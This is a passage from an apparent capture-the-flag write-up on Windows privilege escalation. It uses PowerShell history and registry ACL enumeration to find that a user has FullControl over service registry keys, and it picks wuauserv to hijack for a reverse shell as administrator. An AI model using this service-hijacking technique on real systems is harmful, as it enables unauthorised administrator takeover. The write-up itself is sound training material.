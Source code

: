 User obtained.

The root part has to do with windows registry. To spot that we had to look into the users powershell history.

```
PS C:\Users\Hector\Documents> (Get-PSReadLineOption).HistorySavePath
(Get-PSReadLineOption).HistorySavePath
C:\Users\Hector\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
PS C:\Users\Hector\Documents> type C:\Users\Hector\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
type C:\Users\Hector\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
get-childitem HKLM:\SYSTEM\CurrentControlset | format-list
get-acl HKLM:\SYSTEM\CurrentControlSet | format-list
PS C:\Users\Hector\Documents>
```
Running `get-acl HKLM:\SYSTEM\CurrentControlSet\services* | format-list`
```
Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services
Owner  : NT AUTHORITY\SYSTEM
Group  : NT AUTHORITY\SYSTEM
Access : CREATOR OWNER Allow  FullControl
         NT AUTHORITY\Authenticated Users Allow  ReadKey
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         CONTROL\Hector Allow  FullControl <--- USER HERE HAS FULLCONTROL
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadKey
Audit  : 
Sddl   : O:SYG:SYD:PAI(A;CIIO;KA;;;CO)(A;CI;KR;;;AU)(A;CI;KA;;;SY)(A;CI;KA;;;BA)(A;CI;KA;;;S-1-5-21-3271572904-80546332
         -2170161114-1000)(A;CI;KR;;;AC)
```

This means we can edit registries for a service and then execute malicious code which in our case is a reverse shell as administrator. First let's see the services what `hector` has access to by issuing this command.
`Get-acl HKLM:\System\CurrentControlSet\Services\* | Format-List * | findstr /i "Hector Users Path"` This gives us a big list with the proccess name. We would choose `wuauserv`.

```
PS C:\Users\Hector\Documents> Get-Item -path HKLM:\SYSTEM\CurrentControlSet\Services\wuauserv
Get-Item -path HKLM:\SYSTEM\CurrentControlSet\Services\wuauserv


    Hive: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services


Name                           Property                                                                                
----                           --------                                                                                
wuauserv                       DependOnService     : {rpcss}                                                           
                               Description         : @%systemroot%\system32\wuaueng.dll,-106                           
                               DisplayName         : @%systemroot%\system32\wuaueng.dll,-105                           
                               ErrorControl        : 1                                                                 
                               FailureActions      : {128, 81, 1, 0...}                                                
                               ImagePath           : C:\Windows\system32\svchost.exe -k netsvcs -p                     
                               ObjectName          : LocalSystem                                                       
```